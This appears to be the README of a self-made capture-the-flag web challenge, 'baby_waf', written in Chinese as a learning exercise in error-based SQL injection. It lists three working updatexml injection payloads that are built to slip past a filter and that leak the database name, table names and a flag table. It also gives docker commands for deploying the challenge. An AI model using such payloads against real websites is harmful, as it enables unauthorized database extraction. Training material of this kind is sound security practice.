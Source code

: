 # baby_waf

学习web时自己出（chaoxi）的一道题。

知识点是报错注入。

## payload

```
?id=-1'||updatexml(1,concat(0x7e,database(),0x7e),1)||'1'='1

?id=-1'||updatexml (1,concat(0x7e,(select(group_concat(table_name))from(mysql.innodb_table_stats)where(database_name='ctftraining')),0x7e),1)||'1'='1

?id=-1'||updatexml (1,concat(0x7e,(select(group_concat(`1`))from(select(1)union(select*from(flag)))a),0x7e),1)||'1'='1
```

## 部署

```shell
sudo docker build -f dockerfile -t prcuzz_waf .
sudo docker run -P prcuzz_waf
```

